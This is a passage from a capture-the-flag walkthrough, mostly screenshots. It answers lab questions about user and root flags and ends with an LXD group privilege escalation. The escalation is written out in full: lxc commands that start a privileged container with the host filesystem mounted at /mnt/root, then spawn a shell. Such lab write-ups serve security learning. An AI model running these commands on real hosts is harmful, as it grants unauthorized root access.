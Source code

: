 <img src="https://imgur.com/AdW1iNJ.png"/>

9. What is the value of the user.txt flag?

<img src="https://imgur.com/1Ec7WWT.png"/>

10. Check the user's groups. Which group can be leveraged to escalate privileges? 

<img src="https://imgur.com/AiwXz0t.png"/>

11. What is the value of the root.txt flag?

Now in order to escalate privleges we have to get `lxd-alpine-builder.git` on our local machine

<img src="https://imgur.com/ePPMzPM.png"/>

Make sure you are doing this in you `root` directory

<img src="https://imgur.com/kD1fJdl.png"/>

Tranfer the `tar` file on the target machine through wget,python http server or using netcat. I used `netcat`.

<img src="https://imgur.com/bdNYft1.png"/>

Now run these commands

```
lxc image import ./alpine-v3.12-x86_64-20201225_0216.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

<img src="https://imgur.com/B7SCXeZ.png"/>

Then navigate to `/mnt/root/root`

<img src="https://imgur.com/ppThxx6.png"/>